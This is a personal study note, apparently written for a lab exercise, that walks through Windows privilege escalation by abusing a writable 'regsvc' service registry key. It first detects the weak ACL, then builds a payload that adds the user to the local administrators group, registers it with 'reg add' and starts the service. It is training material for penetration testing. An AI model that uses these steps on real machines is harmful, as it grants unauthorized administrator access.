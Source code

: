#Windows #PrivEsc #Registry #SimpleHTTPServer #msiexec #MSFvenom #metasploit #msfconsole #meterpreter #regsvc

﻿## ﻿﻿﻿﻿**Detection**

Windows VM

1. Open powershell prompt and type: `Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`
2. Notice that the output suggests that user belong to “`NT AUTHORITY\INTERACTIVE`” has “`FullContol`” permission over the registry key.

**Exploitation**

Windows VM

1. Copy ‘`C:\Users\User\Desktop\Tools\Source\windows_service.c`’ to the Kali VM.
- pyftpdlib! [[0_File Transfers]]
	- For transfer from RHOST to LHOST ==resume here==
```

```
Kali VM

1. Open `windows_service.c` in a text editor and replace the command used by the `system()` function to: `cmd.exe /k net localgroup administrators user /add`  
2. Exit the text editor and compile the file by typing the following in the command prompt: `x86_64-w64-mingw32-gcc windows_service.c -o x.exe`
		*(NOTE: if this is not installed, use '`sudo apt install gcc-mingw-w64`')* 
1. Copy the generated file `x.exe`, to the Windows VM.

Windows VM

1. Place `x.exe` in ‘`C:\Temp`’.  
2. Open command prompt at type: `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`  
3. In the command prompt type: `sc start regsvc`  
4. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`

